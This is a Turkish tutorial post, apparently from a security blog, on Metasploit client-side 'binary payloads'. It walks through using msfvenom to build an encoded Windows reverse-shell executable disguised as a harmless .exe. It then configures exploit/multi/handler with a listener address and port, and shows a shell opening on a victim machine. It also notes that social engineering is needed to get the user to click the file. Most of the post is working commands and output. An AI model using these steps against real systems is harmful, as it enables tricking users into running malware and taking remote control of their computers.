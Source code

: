 ```yaml
---
draft: false

title:  'MSF Binary Payloads'
date: '2017-05-20T13:10:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'İstemci tarafı saldırılar, tüm ağ yöneticilerinin dikkat etmesi gerekli türden saldırılardır. Sisteminizin güvenliğini ne kadar sağlasanız da istemci tarafı saldırılar, kullanıcılarınızın zafiyetlerini kullanırlar.' 
 
url:  /tr/msf-binary-payloads/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## İstemci Taraflı Saldırılar



İstemci tarafı saldırılar, tüm ağ yöneticilerinin dikkat etmesi gerekli türden saldırılardır. Sisteminizin güvenliğini ne kadar sağlasanız da istemci tarafı saldırılar, kullanıcılarınızın zafiyetlerini kullanırlar.



Pentest işlemi gerçekleştirenler, sistemde bulunan kullanıcının, bir şekilde linke tıklamasını veya zararlı yazılım çalıştırmasını sağladığında kendilerine hedef sistemde kapı açmış olurlar. Bu sebeple, istemci taraflı saldırılar, kullanıcıyla etkileşim gerektirmektedir. Bu tür saldırılar, sosyal mühendislik çalışmalarını da gerektirir.



Metasploit Framework, bu tür zararlı kodların oluşturması için bir çok modül sağlamaktadır.



## binary payloads



binary payloads olarak adlandırılan çalıştırılabilir dosyalar, zararsız .exe dosyaları gibi görünse de aslında içinde tehlikeli kodlar bulunduran dosyalardır. Dosyayı alacak kullanıcıya, önemli bir dosya hissi uyandırarak tıklaması sağlanır ve zararlı kod çalışır.



Bu yazıda, Metasploit Framework tarafından sağlanan `msfvenom` komut satırı aracı kullanılacaktır. `msfvenom` kullanarak `.exe`, `perl` veya `c` program çıktıları elde edebilirsiniz. Burada `.exe` formatı kullanılacaktır.



## Windows Reverse Shell Açan Payload Oluşturma



Hedef kullanıcının zararlı programı çalıştırdığında dinleyen IP adresine bağlanması için bir payload oluşturmak için `windows/shell/reverse_tcp` modülünü kullanacağız. Öncelikle bu modülün çalışmak için hangi değişkenlere ihtiyaç duyduğuna bakalım.


```bash
root@kali:~# msfvenom --payload-options -p windows/shell/reverse_tcp
Options **for **payload/windows/shell/reverse_tcp:


       Name: Windows Command Shell, Reverse TCP Stager
     Module: payload/windows/shell/reverse_tcp
   Platform: Windows
       Arch: x86
Needs Admin: No
 Total size: 281
       Rank: Normal

Provided by:
    spoonm 
    sf 
    hdm 
    skape 

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique **(**Accepted: '', seh, thread, process, none**)**
LHOST                      yes       The listen address
LPORT     4444             yes       The listen port

Description:
  Spawn a piped command shell **(**staged**)**. Connect back to the attacker
```



Bu modül, çıktıda görüldüğü gibi `LHOST` ve `LPORT` değişkenlerinin ayarlanmasına ihtiyaç duymaktadır. Hedef platform olarak x86 mimari ve Windows işletim sistemi seçilmiştir. Oluşturacağımız payload için bir encoder kullanmamız gerekiyor. Bunun için de `x86/shikata_ga_nai` encoder modülünü kullanacağız. Bu şartlar altında aşağıdaki komut, encoder kullanarak `/tmp` klasörünün içinde `1.exe` isimli bir dosya oluşturacaktır.


```bash
root@kali:~# msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST**=**172.16.104.130 LPORT**=**31337 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 **(**iteration**=**0**)**
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: /tmp/1.exe
```



`1.exe` dosyamızın türünü kontrol edelim. `file` komutuyla yaptığımız kontrolde `1.exe` doyasının MS Windows dosyası olduğu aşağıda görülmektedir.


```bash
root@kali:~# file /tmp/1.exe
/tmp/1.exe: PE32 executable **(**GUI**)** Intel 80386, **for **MS Windows
```



## Dinleme Ayarları



Elimizde istemcinin tıklayıp çalıştıracağı `1.exe` dosyası artık hazır durumda. Şimdi, tıklama işlemi gerçekleştiğinde dinleyecek bir modülü çalıştırmamız gerekiyor. Bunun için `exploit/multi/handler` modülünü ve içinde `payload windows/shell/reverse_tcp` dinleyici payload u kullanacağız.



Öncelikle `exploit/multi/handler` modülünü yükleyip seçeneklere bakalım.


```bash
msf > use exploit/multi/handler
msf exploit**(**handler**)** > show options

Module options:

   Name  Current Setting  Required  Description 
   ----  ---------------  --------  ----------- 


Exploit target:

   Id  Name            
   --  ----            
   0   Wildcard Target
```



Gördüğünüz gibi exploit modülünde herhangi bir zorunlu değişken bulunmuyor. Şimdi payload ayarlaması yapalım.


```bash
msf exploit**(**handler**)** > set payload windows/shell/reverse_tcp
payload **=>** windows/shell/reverse_tcp
msf exploit**(**handler**)** > show options

Module options:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options **(**windows/shell/reverse_tcp**)**:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST                      yes       The local address
   LPORT     4444             yes       The local port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target 
```



Bu çıktıda görülmektedir ki Payload için `LHOST` ve `LPORT` değerlerinin girilmesi gerekmekte.



`LHOST`: Local Host yani yerelde dinleyecek IP adresini,



`LPORT`: Local Port, yani dinleyecek Port numarasını ifade eder.



Bu değerlerin, `msfvenom` komutuyla oluşturduğumuz `1.exe` dosyası için girdiğimiz değerler ile aynı olmasına dikkat edin. `1.exe` dosyası içinde hangi değerler gömülü ise zararlı yazılım bu bilgilere göre haberleşme sağlamak isteyecektir.


```bash
msf exploit**(**handler**)** > set LHOST 172.16.104.130
LHOST **=>** 172.16.104.130
msf exploit**(**handler**)** > set LPORT 31337
LPORT **=>** 31337
msf exploit**(**handler**)** >
```



Tüm ayarlamaları yaptıktan sonra `exploit` komutuyla modül çalıştırılır ve dinlemeye başlanır. Aşağıda, dinleme sonucunda gerçekleşen bir istemci tıklaması sonucu açılan komut satırı görülmektedir.


```bash
msf exploit**(**handler**)** > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
> Sending stage **(**474 bytes**)**
> Command shell session 2 opened **(**172.16.104.130:31337 -> 172.16.104.128:1150**)**

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Victim\My Documents>
```
